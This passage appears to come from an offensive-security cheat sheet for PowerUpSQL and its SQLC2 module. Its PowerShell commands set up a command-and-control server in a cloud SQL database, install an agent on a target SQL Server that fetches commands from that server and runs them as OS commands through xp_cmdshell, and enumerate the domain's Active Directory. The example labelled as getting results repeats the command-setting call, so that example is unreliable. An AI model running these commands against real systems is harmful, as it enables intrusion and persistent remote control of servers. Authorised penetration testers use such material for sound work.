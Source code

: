 ### SQLC2

This is a csharp assembly; can be imported into SQL Server and used for basic post exploitation.

####  SQLC2 – Installing Server 

This functions creates the C2 SQL Server tables in the target database. If the database does not exist, the script will try to create it.

```powershell
# SQLC2
Install-SQLC2Server -Username 'CloudAdmin' -Password 'CloudPassword!' -Instance 'cloudserver1.database.windows.net' -Database 'database1'
``` 

####  SQLC2 – Installing PsAgent

This functions installs a C2 Agent on the target SQL Server by creating a server link to the C2 SQL Server, then it creates a TSQL SQL Agent job that uses the link to download commands from the C2 server and executes them. By default is execute OS command using xp_cmdshell. This requires sysadmin privileges on the target server. 

```powershell
# SQLC2
Install-SQLC2AgentPs -Verbose -Instance 'SQLServer1' -Database 'test1'
```

####  SQLC2 – Command & Control

View SQLC2 Agents:

```powershell
# SQLC2
Get-SQLC2Agent -Verbose -Username 'CloudAdmin' -Password 'CloudPassword!' -Instance 'cloudserver1.database.windows.net' -Database 'database1'
```

Set command to run on agent:

```powershell
# SQLC2
Set-SQLC2Command -Verbose -Username 'CloudAdmin' -Password 'CloudPassword!' -Instance 'cloudserver1.database.windows.net' -Database 'database1' -Command "Whoami" -ServerName "SQLServer1"
```

Get command results:

```powershell
# SQLC2
Set-SQLC2Command -Verbose -Username 'CloudAdmin' -Password 'CloudPassword!' -Instance 'cloudserver1.database.windows.net' -Database 'database1'
```

## Active Directory Enumeration

```powershell
# PowerUpSQL
# Provides the domain account policy for the SQL Server's domain.
Get-SQLDomainAccountPolicy
Get-SQLDomainAccountPolicy -Instance "SQLServer1\Instance1" -Verbose
Get-SQLDomainAccountPolicy -Instance "SQLServer1\Instance1" -Verbose -LinkUsername "domain\user" -LinkPassword "Password123!"
Get-SQLInstanceLocal | Get-SQLDomainAccountPolicy -Verbose
Get-SQLInstanceRemote | Get-SQLDomainAccountPolicy -Verbose

# Provides a list of the domain computers on the SQL Server's domain.
Get-SQLDomainComputer

# Provides a list of the domain controllers on the SQL Server's domain.
Get-SQLDomainController
```